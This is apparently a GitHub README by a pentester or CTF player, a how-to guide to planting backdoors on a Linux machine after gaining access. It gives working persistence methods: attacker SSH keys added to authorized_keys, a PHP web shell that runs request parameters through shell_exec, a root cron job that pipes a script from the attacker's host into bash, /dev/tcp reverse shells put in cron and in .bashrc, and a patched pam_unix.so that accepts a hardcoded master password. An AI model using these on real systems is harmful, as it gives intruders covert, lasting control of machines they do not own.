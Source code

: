 # Linux Backd00rs!
## @Author : M3tr1c_r00t
![image](https://user-images.githubusercontent.com/99975622/216764166-c4480490-bb43-4839-a672-905c0c117ad4.png)


### 1). We can use SSH-keys...
I know your gonna say that ssh-keys aren't backdoors.
But there is one thing you should note, you can login into ssh with a pty spawn, therefore, you can be a little bit more sneaky.
#### generating ssh-keys
```
ssh-keygen -f <FILE_NAME>
```
-f - saves the ssh -key in the current directory in the name that you will assign it.
After running the command, you are going to be asked to enter a password...
If you dont want to encrypt your ssh-keys, just press enter twice.

This is going to generate 2 files, the ssh private key and the public key.
You are going to be needed to add the ssh-public key into the user's .ssh directory.
If in that directory there is a file, "authorized_keys", you can copy the contents of your public key into that file.
After that, we can login to the system using ssh.
```
ssh User@IP -i PRIVATE_SSH_KEY
```
To login without a pty shell;
```
ssh User@IP -i PRIVATE_SSH_KEY -T
```
If the directory .ssh is not present, you can always create it.
NB./ This may not work if your user isnt permitted to use ssh -keys.

Plus, if you get an RSA private key, before using it, remember to give it the appropriate read permissions.
```
chmod 400 PRIVATE_RSA_KEY
```
But it isnt a must to do this on the files generated using ssh-keygen as it does this automatically.

### 2). PHP Backdoors...
We can add this in the web root directory which is usually located at /var/www/html
With that info, you can add any php malicious code in that directory and save it as a .php file...
Example code;
```
<?php
    if (isset($_REQUEST['cmd'])) {
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
    }
?>
```
You can also use the php reverse shell script.
You can also add the malicious code in between the files such as the index.php file which is a lot sneaky.

### 3). Cron Jobs...
If you want to view the cron job;
```
cat /etc/crontab
```
This represents all the tasks that are scheduled to run at some time on your machine.

well, we can add a cronjob to be sending us a reverse shell every minute...
```
* *     * * *   root    curl http://YOUR_IP:PORT/shell | bash
```
This is going to run this script after every minute,hour,day,etc.
We can add this to be into the shell file contents...
```
#!/bin/bash
bash -i >& /dev/tcp/YOUR_IP/PORT 0>&1
```
For this to work, we need to have set up our http.server so that the script will be able to get the file.
We also need to have set up our listener.

NB: You need to be the root user so as to be able to edit the /etc/crontab file.

### 4). [.bashrc] Backdoors....
If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.
Well, we can add this payload into the .bashrc file;
```
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```
This is going to send us a reverse shell anytime the user logs into the machine.

### 5). pam_unix.so Backdoors...
the file "pam_unix.so" is one of many files in Linux that is responsible for authentication.
![image](https://user-images.githubusercontent.com/99975622/216675465-afedd319-5b0f-4c22-9b80-78edf00892d5.png)
the file "pam_unix.so" uses the "unix_verify_password" function to verify to user's supplied password.

![image](https://user-images.githubusercontent.com/99975622/216675592-7d2be4ee-b567-440e-bbe1-3d42730ad611.png)
We can modify the file as above...

Say a user types the password "password123" and tries to authenticate. We will compare his password(password123) to the string "0xMitsurugi".

If those two strings match, the authentication is successful. But those 2 strings do not match, so the authentication will not be

successful and will rely on the "unix_verify_password" function. When using the "unix_verify_password" function to authenticate, the function takes the user's password from "/etc/shadow" and compares it to the user's supplied password. This is how the intended authentication system should work. 

### Resources...
For more methods...
```
https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c
```


## My socials:
<br>@ twitter: https://twitter.com/M3tr1c_root
<br>@ instagram: https://instagram.com/m3tr1c_r00t/
